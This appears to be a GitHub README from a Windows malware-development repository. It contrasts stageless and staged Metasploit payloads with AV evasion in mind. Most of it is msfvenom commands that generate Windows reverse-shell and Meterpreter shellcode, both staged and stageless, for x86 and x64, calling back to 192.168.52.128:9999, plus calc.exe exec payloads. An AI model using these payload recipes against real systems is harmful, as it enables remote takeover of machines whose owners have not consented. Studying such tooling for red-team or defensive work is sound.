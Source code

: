 # stageless vs staged
```
It’s a facinating topic when it comes to AV evasion, It brings up the old argument of "Is it better to have more network-based artifacts or host-based?".

Stageless => produced more host based artifacts.
Staged => Produces more network based artifacts.
```
###### 1-stageless
![image](https://github.com/gil01karougbe/WIN-MALWARE-DEV/assets/98090770/219d452e-e6f5-4645-abb3-5907fe2e64bd)

```
---------------------------------------------------------------
                 /shell_reverse_tcp
                 /meterpreter_reverse_tcp
---------------------------------------------------------------
A stagless payload contains everything in it. Because of this, it size is typically much larger and the program is relatively complex compared to a staged payload.
```
msfvenom!!!
```sh
###reverse tcp
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.52.128 LPORT=9999 -f c
###meterpreter
msfvenom -a x86 --platform windows -p windows/meterpreter_reverse_tcp  LHOST=192.168.52.128 LPORT=9999 -f c
```

###### 2-staged
![image](https://github.com/gil01karougbe/WIN-MALWARE-DEV/assets/98090770/13b89719-42eb-4b0a-9f27-2dd2cff501d4)

```
---------------------------------------------------------------
                 /shell/reverse_tcp
                 /meterpreter/reverse_tcp
---------------------------------------------------------------
In the diagram above, The victim runs the dropper(First Part), which beacons out to the attacker's C2 server to recieve a second stage which is then injected and executed in memory.
=> This is how staged payload works, the idea to get here is that a staged payload has multiple parts.
```
msfvenom!!!
```sh
###reverse tcp
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.52.128 LPORT=9999 -f c
###meterpreter
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.52.128 LPORT=9999 -f c
```
###### 3-arch
```sh
msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe  -f c
```
![image](https://github.com/gil01karougbe/WIN-MALWARE-DEV/assets/98090770/35fa7c6b-397a-4a02-8a3e-741ba8ef2f1e)

```sh
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe  -f c
```
![image](https://github.com/gil01karougbe/WIN-MALWARE-DEV/assets/98090770/83cba161-484f-4467-8855-ac8fcacdc2da)

```sh
msfvenom -a x64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=192.168.52.128 LPORT=9999 -f c
```
![image](https://github.com/gil01karougbe/WIN-MALWARE-DEV/assets/98090770/229579cf-b7bf-4769-bc0e-229236289269)

```sh
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.52.128 LPORT=9999 -f c
```
![image](https://github.com/gil01karougbe/WIN-MALWARE-DEV/assets/98090770/6d75d9a8-2a50-476a-a71a-bdb988c2b305)

